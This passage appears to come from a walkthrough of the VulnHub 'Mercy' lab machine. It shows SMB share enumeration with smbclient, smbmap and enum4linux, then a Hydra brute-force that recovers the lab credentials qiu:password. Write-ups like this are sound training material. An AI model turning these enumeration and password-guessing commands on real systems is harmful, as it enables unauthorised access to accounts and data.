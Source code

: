Anyway; SMB. I could see the shares with *smbclient* and *smbmap*:

{% highlight shell %}
root@kali:/opt/vulnhub/mercy# smbclient -L //192.168.1.169
smbclient -L //192.168.1.169
Enter WORKGROUP\roots password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        qiu             Disk      
        IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
root@kali:/opt/vulnhub/mercy# smbmap -u '' -H 192.168.1.169
smbmap -u '' -H 192.168.1.169
[+] Guest session       IP: 192.168.1.169:445   Name: 192.168.1.169                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        qiu                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (MERCY server (Samba, Ubuntu))
root@kali:/opt/vulnhub/mercy#
{% endhighlight %}

But I couldn't log in without any creds. While I had used it before, I didn't think to try *enum4linux*. But that's what we need to do:

``
root@kali:/opt/vulnhub/mercy# enum4linux  192.168.1.169
``

With that, we get some users:

{% highlight shell %}
S-1-22-1-1000 Unix User\pleadformercy (Local User)
S-1-22-1-1001 Unix User\qiu (Local User)
S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
S-1-22-1-1003 Unix User\fluffy (Local User)
{% endhighlight %}

## SMB, logged in
I tried running my users against POP, SMB and the http basic authentication on Tomcat with Hydra but wasn't getting anywhere. I checked a hint and the SMB password for user *qiu* was literally *password*; this should have broken almost immediately. And in fact this does work with other wordlists:

{% highlight shell %}
root@kali:/opt/vulnhub/mercy# hydra -L users -P /usr/share/seclists/Passwords/probable-v2-top207.txt smb://192.168.1.169
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-21 06:24:35
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 621 login tries (l:3/p:207), ~621 tries per task
[DATA] attacking smb://192.168.1.169:445/
[445][smb] host: 192.168.1.169   login: qiu   password: password
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
